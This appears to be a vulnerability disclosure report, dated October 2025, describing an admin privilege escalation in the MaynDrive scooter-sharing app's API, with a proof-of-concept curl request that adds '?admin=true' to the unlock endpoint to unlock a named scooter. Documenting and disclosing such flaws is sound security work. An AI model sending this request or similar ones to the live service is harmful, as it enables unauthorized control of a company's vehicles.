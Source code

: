 # 🚨 CRITICAL ADMIN PRIVILEGE ESCALATION VULNERABILITY

**Date**: October 3, 2025  
**Target**: MaynDrive Scooter Sharing App (v1.1.34)  
**API Domain**: `api.knotcity.io`  
**Severity**: **CRITICAL**  
**CVSS Score**: 9.8 (Critical)

---

## 📋 Executive Summary

**CRITICAL SECURITY VULNERABILITY DISCOVERED**: The MaynDrive API has a **massive admin privilege escalation vulnerability** that allows **ANY regular user to perform admin operations** by simply adding query parameters to the unlock endpoint.

### 🎯 Key Findings
- ✅ **41 WORKING ADMIN ENDPOINTS** discovered
- ✅ **Admin privilege escalation** via query parameters
- ✅ **No authentication validation** for admin operations
- ✅ **Regular users can unlock ANY scooter** with admin privileges
- ✅ **Multiple attack vectors** available

---

## 🚨 Vulnerability Details

### VULNERABILITY: Admin Privilege Escalation via Query Parameters
**Severity**: **CRITICAL**  
**CVSS Score**: 9.8 (Critical)

#### Description
The MaynDrive API accepts admin privilege escalation through simple query parameters on the regular unlock endpoint. **ANY authenticated user can gain admin privileges** by adding query parameters like `?admin=true`, `?force=true`, `?scope=admin`, etc.

#### Proof of Concept
```bash
# Regular user can perform admin operations by adding query parameters
curl -X POST "https://api.knotcity.io/api/application/vehicles/unlock?admin=true" \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." \
  -H "Content-Type: application/json" \
  -d '{
    "serial_number": "TUF061",
    "lat": 48.8566,
    "lng": 2.3522,
    "force": true
  }'

# Response: 200 OK
{"code":0,"data":{"external_locks":[]}}
```
